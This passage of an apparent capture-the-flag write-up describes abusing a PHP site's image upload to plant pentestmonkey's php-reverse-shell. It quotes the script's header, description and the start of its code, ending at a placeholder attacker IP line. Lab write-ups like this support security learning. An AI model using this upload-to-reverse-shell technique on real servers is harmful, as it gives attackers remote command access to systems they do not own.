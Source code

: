 And we are in !

If you check the **Student registeration** page there is an **image upload option**

This is really useful what if we can upload a payload and get a **reverse shell**

We know that they are running **php** in the **backend**
## Exploitation

Okay while searching in google found this **php-reverse-shell** code you can find it [**here**](https://github.com/pentestmonkey/php-reverse-shell)


```
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = 'Your IP';  // CHANGE THIS
```